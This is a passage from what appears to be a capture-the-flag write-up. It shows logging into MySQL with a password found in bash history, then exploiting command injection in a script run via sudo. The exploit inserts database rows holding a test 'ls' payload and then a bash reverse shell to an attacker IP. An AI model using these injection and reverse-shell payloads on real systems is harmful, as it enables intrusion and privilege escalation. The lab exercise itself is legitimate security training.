 In bash history we've found a password!

Let's log in now
```
$ mysql -u lucien -p
Enter password: [REDACTED]
[...]

mysql> 
```

We got it - use `library`
```
> use library;
```

If we edit something in this database we will get it printed - we can use this for `command injection` attack

Let's check it first - run this SQL query
```
INSERT INTO `dreams` VALUES("hacker", "yes | ls -la");
```

Then after we execute that code we get
```
$ sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

total 44
drwxr-xr-x 5 lucien lucien 4096 Nov 17 23:08 .
drwxr-xr-x 5 root   root   4096 Jul 28 22:26 ..
-rw------- 1 lucien lucien  684 Aug 25 16:27 .bash_history
-rw-r--r-- 1 lucien lucien  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lucien lucien 3771 Feb 25  2020 .bashrc
drwx------ 3 lucien lucien 4096 Jul 28 18:42 .cache
drwxrwxr-x 4 lucien lucien 4096 Jul 28 18:42 .local
-rw-rw---- 1 lucien lucien   19 Jul 28 16:27 lucien_flag.txt
-rw------- 1 lucien lucien 3065 Nov 17 23:08 .mysql_history
-rw-r--r-- 1 lucien lucien  807 Feb 25  2020 .profile
drwx------ 2 lucien lucien 4096 Jul 28 14:25 .ssh
-rw-r--r-- 1 lucien lucien    0 Jul 28 14:28 .sudo_as_admin_successful

```

That's what we wanted - update that but with reverse shell

```
UPDATE dreams SET `dream` = "yes | /bin/bash -c 'bash -i 1>& /dev/tcp/[Your IP]/2137 0>&1'" WHERE dreamer = "hacker";
```
